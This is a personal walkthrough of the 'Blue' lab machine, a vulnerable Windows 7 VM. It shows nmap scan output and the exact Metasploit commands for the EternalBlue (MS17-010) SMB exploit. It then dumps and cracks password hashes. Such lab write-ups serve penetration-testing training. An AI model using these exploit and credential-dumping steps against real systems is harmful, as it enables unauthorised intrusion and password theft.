

# Blue

# Scanning to Determine IP:

```jsx
arp-scan -l
// 172.16.2.128
```

# Scanning And Enumeration:

1) Starting off with nmap scan

```jsx
nmap -T4 -A -p- 172.16.2.128   
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-26 18:42 PKT
Nmap scan report for 172.16.2.128
Host is up (0.0017s latency).
Not shown: 65526 closed tcp ports (reset)
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Ultimate 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
MAC Address: 00:0C:29:45:A8:8C (VMware)
Device type: general purpose
Running: Microsoft Windows 7|2008|8.1
OS CPE: cpe:/o:microsoft:windows_7::- cpe:/o:microsoft:windows_7::sp1 cpe:/o:microsoft:windows_server_2008::sp1 cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows_8.1
OS details: Microsoft Windows 7 SP0 - SP1, Windows Server 2008 SP1, Windows Server 2008 R2, Windows 8, or Windows 8.1 Update 1
Network Distance: 1 hop
Service Info: Host: WIN-845Q99OO4PP; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_nbstat: NetBIOS name: WIN-845Q99OO4PP, NetBIOS user: <unknown>, NetBIOS MAC: 000c2945a88c (VMware)
|_clock-skew: mean: 1h20m00s, deviation: 2h18m34s, median: 0s
| smb2-security-mode: 
|   210: 
|_    Message signing enabled but not required
| smb-os-discovery: 
|   OS: Windows 7 Ultimate 7601 Service Pack 1 (Windows 7 Ultimate 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1
|   Computer name: WIN-845Q99OO4PP
|   NetBIOS computer name: WIN-845Q99OO4PP\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2023-07-26T09:49:38-04:00
| smb2-time: 
|   date: 2023-07-26T13:49:38
|_  start_date: 2023-07-26T13:22:32
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)

TRACEROUTE
HOP RTT     ADDRESS
1   1.66 ms 172.16.2.128

Nmap done: 1 IP address (1 host up) scanned in 416.11 seconds
```

2) Since, not many useful ports are open and we cannot even determine the SMB port version as well, we will be searching google for information on the OS.



<aside>
💡 Rapid 7 and exploit DB are always our best friends so we will be looking into them.

</aside>

# Exploitation:

## 1) METASPLOIT:

Rapid7 tells us about the exploit


so, launch up metasploit

```jsx
> msfconsole
> use exploit/windows/smb/ms17_010_eternalblue
> set rhosts 172.16.2.128
> exploit
```

and done, we are in the system.


Running hashdump to see passwords


# Post Exploitation:

Time to Crack the passwords:

lets dump the hashes we need to crack into a separate file


**From online Sources, we find the root password as :** `Password456!`


Time to test it out on the VM:


And It Works.